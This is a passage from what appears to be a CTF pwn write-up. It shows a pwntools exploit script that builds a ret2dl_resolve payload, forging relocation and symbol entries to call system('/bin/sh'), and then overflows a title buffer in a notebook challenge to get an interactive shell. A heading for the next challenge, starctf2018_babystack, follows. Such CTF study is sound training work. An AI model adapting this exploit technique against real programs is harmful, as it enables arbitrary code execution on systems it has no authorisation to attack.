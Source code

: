 ```plain

fake_read_reloc = flat([read_got, r_info])

payload = '\x00'*0x400
payload += p32(plt0)
payload += p32(index_offset)
payload += 'aaaa'
payload += p32(base_stage + 80) 
payload += fake_read_reloc
payload += 'a'*align
payload += fake_read_sym
payload += 'system\x00'
payload += 'a' * (80 + 0x400-len(payload))
payload += '/bin/sh\x00'
payload += 'U'*(100 - len(payload))
sa('Give your postscript : ',payload)
sla('Give your notebook size : ',str(1024*130))
overflow_len = 0x216FC
sla('Give your title size : ',str(overflow_len))
sla('invalid ! please re-enter :','1')
sa('Give your title : ','a')
sa('Give your note : ','a'*4)
itr()
```

[![](assets/1700528976-c08a4c368e30d7612a6c0c5260f48d15.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119164335-ba1acadc-86b7-1.png)

### starctf2018\_babystack
